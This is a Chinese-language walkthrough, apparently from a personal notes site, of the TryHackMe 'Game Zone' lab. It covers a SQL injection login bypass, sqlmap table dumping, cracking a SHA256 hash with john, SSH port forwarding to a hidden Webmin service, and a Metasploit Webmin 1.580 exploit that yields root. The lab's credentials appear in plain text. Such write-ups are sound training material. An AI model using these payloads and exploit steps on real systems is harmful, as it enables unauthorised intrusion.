 ```yaml
---
{"dg-publish":true,"permalink":"/tryhackme/tryhackme Game Zone/","tags":["靶场","oscp","tryhackme"]}
---
```



需要用到sqlmap或者手注、破解用户哈希密码、使用 SSH 隧道显示隐藏服务以及使用 metasploit 有效负载获得 root 权限。

sqlmap与ssh反向隧道

有个登录界面 用万能密码能登进去
```
' or 1=1;--  
```

是个搜索界面
![image.png](https://s2.loli.net/2025/04/19/7lIphPqOLicfZKF.png)

输了一个'之后会发现有个报错 我们可以考虑一下sql手注 或者sqlmap注入

## sql手注

先来试试手注 
```
构造and 1=1以及and 1=2
用于数字型注入点，

构造and '1' ='1'以及and '1' ='2'
用于字符型，

有报错就是存在
```



## sqlmap
bp抓包 将post复制下来进行爆破 --dump 能爆出账户和密码

![image.png](https://s2.loli.net/2025/04/19/kre4XsTnAPhqFyC.png)

```
sqlmap -r sql.txt -D db --tables
```

![image.png](https://s2.loli.net/2025/04/19/n2XRSuMpwTP1dsz.png)


john破解密码

```
john john.txt --format=RAW-SHA256 --wordlist=rockyou.txt 
```

![image.png](https://s2.loli.net/2025/04/19/Xnz5tl7LDPA8KVd.png)

## ssh反向隧道

反向 SSH 端口转发指定将远程服务器主机上的给定端口转发到本地端的给定主机和端口。


```
ss -tunlp
```
![image.png](https://s2.loli.net/2025/04/19/E2imDBtV6T1p4Xw.png)

有个10000端口 用 SSH 隧道，我们可以将端口公开给本地

```
ssh -L 10000:localhost:10000 agent47@10.10.120.156
```

![image.png](https://s2.loli.net/2025/04/19/bn9AYgRPjDEBNQy.png)

这个时候我们去访问localhost:10000就会有个页面

## msf攻击

```
search webmin 1.580
use 0
set USERNAME agent47
set PASSWORD videogamer124
set lhost vpn分配的ip
set ssl false
```

运行之后会生成会话 就是root权限